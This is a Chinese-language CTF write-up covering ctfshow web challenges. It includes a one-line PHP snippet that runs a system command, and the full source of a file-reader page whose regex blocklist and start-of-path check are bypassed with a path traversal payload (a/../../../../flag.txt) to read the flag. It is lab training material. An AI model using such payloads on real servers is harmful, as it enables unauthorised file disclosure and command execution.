

~~呀~~

还真可以

等我写一个php代码来执行，，


```php
<?php highlight_file(__FILE__);system('ls'); ?>
```

(但是后面好像是网的问题，导致所有文件都读取不了了，包括以前可以读的那些，所以没有拿到flag，但是也算是解出了把，应该)

## <font style="color:rgb(33, 37, 41);">ctfshow web应用安全与防护_路径遍历突破</font>


读取index.php


```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
<meta charset="UTF-8">
<title>CTFshow 文件管理助手</title>
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<style>
body {
background: linear-gradient(135deg, #232526 0%, #414345 100%);
color: #fff;
font-family: 'Fira Mono', 'Consolas', monospace;
margin: 0;
padding: 0;
}
.container {
max-width: 700px;
margin: 40px auto;
background: rgba(30, 30, 40, 0.95);
border-radius: 18px;
box-shadow: 0 0 30px #00ffe7, 0 0 10px #232526;
padding: 32px 36px 36px 36px;
}
h1 {
text-align: center;
font-size: 2.5em;
letter-spacing: 2px;
color: #00ffe7;
text-shadow: 0 0 10px #00ffe7, 0 0 2px #fff;
margin-bottom: 28px;
}
form {
display: flex;
gap: 10px;
margin-bottom: 22px;
}
input[type="text"] {
flex: 1;
padding: 12px;
border-radius: 8px;
border: none;
background: #232526;
color: #fff;
font-size: 1.1em;
outline: none;
box-shadow: 0 0 8px #00ffe7 inset;
transition: box-shadow 0.2s;
}
input[type="text"]:focus {
box-shadow: 0 0 16px #00ffe7;
}
button {
padding: 12px 28px;
border-radius: 8px;
border: none;
background: linear-gradient(90deg, #00ffe7 0%, #007cf0 100%);
color: #232526;
font-size: 1.1em;
font-weight: bold;
cursor: pointer;
box-shadow: 0 0 10px #00ffe7;
transition: background 0.2s, color 0.2s;
}
button:hover {
background: linear-gradient(90deg, #007cf0 0%, #00ffe7 100%);
color: #fff;
}
.browser-window {
background: #18191c;
border-radius: 12px;
box-shadow: 0 0 16px #00ffe7, 0 0 2px #fff;
padding: 0;
min-height: 350px;
margin-top: 10px;
overflow: auto;
position: relative;
}
.browser-bar {
background: #232526;
border-radius: 12px 12px 0 0;
padding: 8px 16px;
display: flex;
align-items: center;
gap: 8px;
}
.dot {
width: 10px;
height: 10px;
border-radius: 50%;
display: inline-block;
}
.dot.red { background: #ff5f56; }
.dot.yellow { background: #ffbd2e; }
.dot.green { background: #27c93f; }
.browser-content {
padding: 18px 22px;
color: #fff;
min-height: 300px;
font-size: 1.08em;
font-family: 'Fira Mono', 'Consolas', monospace;
word-break: break-all;
}
.footer {
text-align: center;
margin-top: 30px;
color: #888;
font-size: 0.95em;
letter-spacing: 1px;
}
@media (max-width: 800px) {
.container { padding: 16px 4vw 24px 4vw; }
.browser-content { padding: 10px 4vw; }
}
</style>
<link href="https://fonts.googleapis.com/css?family=Fira+Mono:400,700&display=swap" rel="stylesheet">
</head>
<body>
<div class="container">
<h1>CTFshow 文件管理助手</h1>
<form method="get" autocomplete="off">
<input type="text" name="path" placeholder="请输入要读取的文件名称" value="<?php echo isset($_GET['path']) ? htmlspecialchars($_GET['url']) : ''; ?>">
<button type="submit">读取</button>
</form>
<div class="browser-window">
<div class="browser-bar">
<span class="dot red"></span>
<span class="dot yellow"></span>
<span class="dot green"></span>
<span style="margin-left: 18px; color: #00ffe7; font-size: 1em;">
<?php echo isset($_GET['path']) ? htmlspecialchars($_GET['path']) : 'test.txt'; ?>
</span>
</div>
<div class="browser-content">
<?php

if (isset($_GET['path']) && $_GET['path'] !== '') {
$path = $_GET['path'];
if(preg_match('/data|log|access|pear|tmp|zlib|filter|:/', $path) ){
echo '<span style="color:#f00;">禁止访问敏感目录或文件</span>';
exit;
}

#禁止以/或者../开头的文件名
if(preg_match('/^(\.|\/)/', $path)){
echo '<span style="color:#f00;">禁止以/或者../开头的文件名</span>';
exit;
}

echo $path."内容为：\n";
echo str_replace("\n", "<br>", htmlspecialchars(file_get_contents($path)));
} else {
echo '<span style="color:#888;">目标flag文件为/flag.txt</span>';
}
?>
</div>
</div>
<div class="footer">
<span>⚡ Powered by <a href="https://ctf.show" target="_blank">ctfshow</a></span>
</div>
</div>

```

文件读取漏洞，目标是读取 /flag.txt。

但有两个限制：一是路径不能包含 data、log、filter 这类敏感词，二是不能以 . 或 / 开头。 

但是正则只检查了开头，没拦路径中间的 ../。

所以只要在前面随便加个字母目录，后面就能正常跳转。 

输入框里填a/../../../../../../../../flag.txt。



CTF{file_path_bypass_is_fun}

